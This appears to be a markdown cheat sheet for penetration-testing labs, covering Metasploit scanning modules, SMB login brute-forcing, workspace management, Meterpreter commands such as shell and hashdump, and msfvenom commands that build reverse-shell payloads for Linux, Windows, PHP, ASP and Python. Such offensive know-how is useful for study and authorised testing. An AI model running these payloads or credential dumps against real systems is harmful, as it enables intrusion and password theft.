 ```yaml
---
title: Metasploit Exploitation
sidebar_position: 2
---
```


## Scanning
- `search portscan` - List all potential scanning modules.
- `use auxiliary/scanner/portscan/tcp` - Select TCP port scanner.
- `show options` - Displays options for the payload.
- For faster scanning use `nmap` using the command `nmap -sS 10.10.12.229`.


## UDP Service Identification
- Use `scanner/discovery/udp_sweep` to find all services running over UDP.

## SMB Scans
- `smb_enumshares` and `smb_version` - Useful in corporate network.

## Useful Metasploit Scanner Modules
- `auxiliary/scanner/portscan/tcp` - Find all open tcp ports.
- `scanner/smb/smb_login` - Bruteforce SMB login.
- `auxiliary/scanner/netbios/nbname` - Find NetBIOS information.
- `auxiliary/scanner/http/http_version` - Show HTTP application version information.

## Metaspoit Database
- When working on multiple targets it could be confusing to set parameter values.
- Metasploit has a database function to simplify project management and setting up parameter values.
- To setup the database
    - Start postgresql database using `systemctl start postgresql`.
    - Initialize metasploit database using `msfdb init`.
    - Launch `msfconsole`.
    - Check database status using `db_status`.
- Metasploit database has a workspace feature to isolate different projects.
    - `workspace -h` - Displays help information about metasploit database.
    - `workspace -a` - Adds a new workspace.
    - `workspace <workspace_name>` - Switch to workspace.
    - `workspace -d` - Deletes a workspace.
    - `workspace -D` - Deletes all workspaces.
    - `workspace -r` - Rename a workspace. 
- Run `db_nmap` instead of `nmap` to save results to the database.
- Use information relevant to hosts and services using `hosts` and `services` respectively.
- Set a host as RHOSTS using `hosts -R` command.
- Search for a specific service using `services -S <service_name>` command.

## Vulnerability Scanning
- Use the scanner to find modules related to the potential vulnerabilities.
- Use `info` command to view details about the module.

## Useful Meterpreter commands
- `help` - View all the commands supported in meterpreter.
- `pwd` - Print working directory.
- `ls` - List the files in directory.
- `shell` - Drop into the shell of the remote system.
- `download` - Download a file from the remote system.
- `upload` - Upload a file from the attacker machine to remote machine.
- `sysinfo` - Prints the system information.
- `search -f <file_name>` - Finds a file in the target system.
- `hashdump` - Gets the password hash for the users in the target system.

## Msfvenom
- Show list of supported payloads using `msfvenom -l payloads`.
- Show list of supported output formats `msfvenom --list formats`.
- To encode a payload using `-e`. Encoding is not an effective way to bypass antivirus programs.

### Handlers
- `use exploit/multi/handler` initiates the handler.
- `set payload <payload_type>` - To set the payload type.
- `set lhost <attacker_host_ip>` - To set the local host.
- `set lport <attacker_port_number>` - To set the port for communication.
- `run` or `exploit` to start listening.

### Payload Generation

#### Linux
```shell
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf
```
#### Windows
```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe
```

#### PHP
```shell
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php
```
- Remove the leading comment and add `?>` at the end of the generated payload file.

#### ASP
```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp
```

#### Python
```shell
msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py
```

## Escalate Previleges by Upgrading Shells
- Read here: https://docs.metasploit.com/docs/pentesting/metasploit-guide-upgrading-shells-to-meterpreter.html